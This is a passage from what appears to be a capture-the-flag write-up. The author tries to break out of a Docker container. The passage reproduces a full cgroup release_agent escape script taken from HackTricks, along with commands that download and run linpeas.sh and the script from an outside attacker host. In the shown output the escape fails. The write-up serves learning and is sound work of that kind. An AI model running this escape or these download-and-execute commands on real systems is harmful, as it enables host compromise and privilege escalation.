 ```bash
# mount -t cgroup -o rdma cgroup /tmp/esc
mount: /tmp/esc: permission denied.
```

Running `linpeas.sh` confirms that this should be a breakout vector, so maybe I need to dig a bit deeper.
```bash
# wget http://10.10.14.10/linpeas.sh
# chmod +x linpeas.sh
# bash linpeas.sh 

══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts
═╣ release_agent breakout 1........ Yes
```

Steal the script from HackTricks, upload it and run doesn't work either..
```bash
➜  carpediem cat esc.sh 
# Finds + enables a cgroup release_agent
# Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o


# wget http://10.10.14.10/esc.sh
# chmod +x esc.sh
# bash esc.sh
mkdir: cannot create directory '/sys/fs/cgroup/rdma/w': Read-only file system
esc.sh: line 11: /sys/fs/cgroup/rdma/w/notify_on_release: No such file or directory
esc.sh: line 20: /sys/fs/cgroup/rdma/release_agent: Read-only file system
sh: 1: cannot create /sys/fs/cgroup/rdma/w/cgroup.procs: Directory nonexistent
```
